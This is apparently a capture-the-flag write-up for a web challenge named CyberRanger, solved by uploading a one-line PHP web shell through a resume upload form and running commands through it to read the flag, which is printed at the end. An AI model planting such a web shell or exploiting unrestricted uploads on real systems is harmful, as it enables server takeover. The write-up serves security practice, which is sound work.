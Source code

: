 
# Web: CyberRanger

Author: [some1hing](https://github.com/SOME-1HING/)
<br>

**Points**:  350
**Hint:**  In the realm where commands roam, what grants power to execute code from afar, unknown?

**Challenge description:**
```
The Cyber Rangers are back in town, on the hunt for a sysadmin once again. Submit your resume now.
```

## Solve

Upload a php shell like below:

**shell.php**
```php
<?php system($_GET['cmd']); ?>
```

returns a pseudo randomized file name where we can access the shell from.
```
File uploaded to: /uploads/65e724f422dfa.php 
```
use the file path to execute system commands!
```bash
http://glitchctf.games:64600/uploads/65e724f422dfa.php?cmd=whoami
------------------------------------------------------------------
www-data
```

Find the flag path and cat the flag.

#### Flag:
```plaintext
GLITCH{1_4M_B4tm4n}
```
